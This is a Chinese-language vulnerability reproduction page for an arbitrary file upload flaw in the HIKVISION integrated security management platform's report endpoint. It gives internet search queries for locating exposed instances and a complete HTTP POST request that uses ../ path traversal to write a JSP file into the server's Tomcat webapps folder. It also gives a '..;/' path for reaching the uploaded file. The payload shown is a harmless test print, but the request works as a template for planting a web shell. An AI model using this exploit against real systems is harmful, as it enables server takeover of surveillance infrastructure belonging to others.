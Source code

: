 # HiKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台 

## 网络测绘

app="HIKVISION-综合安防管理平台" 

web.title=="综合安防管理平台"  

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317-20230809120725683.png)

```plain
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![img](../../../.vuepress/public/img/1681709277423-114b364b-2e5a-4fb0-a7b9-26154f61ca9e.png)

```plain
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![img](../../../.vuepress/public/img/1681709313430-8f4e019f-f3b7-41fc-a86b-ba1c07e59d45.png)构造请上传文件 (通过 env泄漏获取绝对路径，路径一般不会修改)















```sql
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](../../../.vuepress/public/img/1681709342417-a815332d-13c9-40e4-844a-42eb54661897.png)

```plain
/portal/ui/login/..;/..;/new.jsp
```

![img](../../../.vuepress/public/img/1681709424146-cb0ef1b8-4732-4c3a-a041-37bad6125d44.png)

